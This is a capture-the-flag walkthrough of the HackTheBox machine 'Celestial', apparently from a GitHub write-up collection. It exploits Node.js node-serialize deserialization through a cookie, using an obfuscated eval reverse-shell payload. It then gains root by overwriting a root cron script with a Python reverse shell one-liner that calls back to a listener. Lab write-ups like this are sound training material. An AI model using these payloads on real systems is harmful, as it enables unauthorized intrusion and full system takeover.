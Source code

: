# Recon

As usual we start with a port scan on the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.85 -T5
```

That only reveals an open port on 3000 running the Node.js Express Framework. 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/1.png">

# Enumeration

After browsing to the website we run into a 404. But after refreshing we get different message. BurpSuite shows that on the first visit a cookie is set and after revisiting this is passed as a parameter.

Removing the following from the get request resulted in an error. This tells us that the data appears to be unserialized. We also spot a username: ```sun```.
```
Upgrade-Insecure-Requests: 1
If-None-Match: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/2.png">

The cookie appears to be base64 encoded. After decoding we get the following result:
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/3.png">

Changing the ```num``` has an effect on the formula. We can mess with the parameters to generate the same kind of error we got before.

# Initial Foothold
We can use nodejsshell.py to create a encoded NodeJS reverse shell. We'll first have to create a payload, serialize it, base64 encode it and finally send it as the cookie parameter. 

[nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

First we'll run ```python nodejsshell.py [Listener IP] [Listener Port]``` to create the encoded shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/4.png">


Then we'll create an ```exploit.js``` file which we use to serialize the payload so that it matches the website's.
```
var y = { rce: function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,10>
}
var serialize = require('node-serialize');
var s = serialize.serialize(y)
console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));

```

Running ```nodejs exploit.js``` will create our serialized payload.

I had a issue saying the node-serilize module could not be found. Running ```npm install``` solved this.

After this we finally base64 encode it so we can pass it as the cookie parameter. We make sure to have our listener ready before we send our request with BurpSuite. This will result in an error but at the same time provides us with a reverse shell as user ```sun```.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/5.png">


# Privilege Escalation
First we'll stabilize the shell. We'll run ```which python``` to shows that it has python.
We then run the following commands:
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

press ctrl+z key combination 

stty raw -echo; fg
```

One thing we notice is that user ```sun``` is part of the ```sudo``` group. We also spot a file called ```script.py``` in the home directory. One directory higher we find ```output.txt``` which get's changed every 5 minutes. The content is the content from ```script.py```.

If this script is initiated by a root account we can try to alter the content of the file in order to give us a root shell.

We can use ```pspy``` to see what's exactly going on. Download it from [here](https://github.com/DominicBreuker/pspy). 

After a few minutes we see the following commands proving what we already thought:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Celestial/assets/6.png">

Good news! Now we can use a oneliner php shell and save it as the script:
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);" > script.py
```

With our new listener ready on port 4446 we wait for a few minutes for the script to run. As soon as it gets executed a root shell will pop up.






















